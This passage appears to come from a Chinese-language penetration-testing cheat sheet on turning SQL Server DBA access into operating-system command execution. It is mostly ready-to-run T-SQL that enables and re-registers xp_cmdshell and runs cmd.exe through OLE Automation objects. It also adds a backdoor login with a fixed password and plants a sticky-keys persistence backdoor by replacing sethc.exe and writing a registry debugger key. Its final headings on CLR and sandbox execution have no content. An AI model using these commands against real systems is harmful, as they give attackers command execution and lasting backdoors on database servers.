 **利用条件:**

* 拥有DBA权限 `select is_srvrolemember('sysadmin');`

```sql
exec sp_configure 'show advanced options',1  
reconfigure;exec sp_configure 'xp_cmdshell',1;
reconfigure
```
被删除后，重新添加xp``_cmdshell存储过程语句
```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll';
```
### Ole automation procedures
**利用条件:**

- 拥有DBA权限

1. 开启Ole automation procedures

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'show advanced options', 0;
```

2. 命令执行

```sql

# wscript.shell组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

# com组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```
### ap_addlogin添加用户
```sql
EXEC sp_addlogin 'Admin', 'test123', 'master'
# 用户Admin，密码test123，默认数据库master
```
### xp_regwrite劫持粘滞键
```sql
#sp_oacreate复制文件
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';
exec xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.EXE','Debugger','REG_SZ','c:\windows\system32\cmd.exe';
```
### CLR执行命令
SQLServer 2005以后支持调用CLR(公告语言运行时)的存储过程,即支持在sqlserver中运行.net代码.
### 沙盒执行命令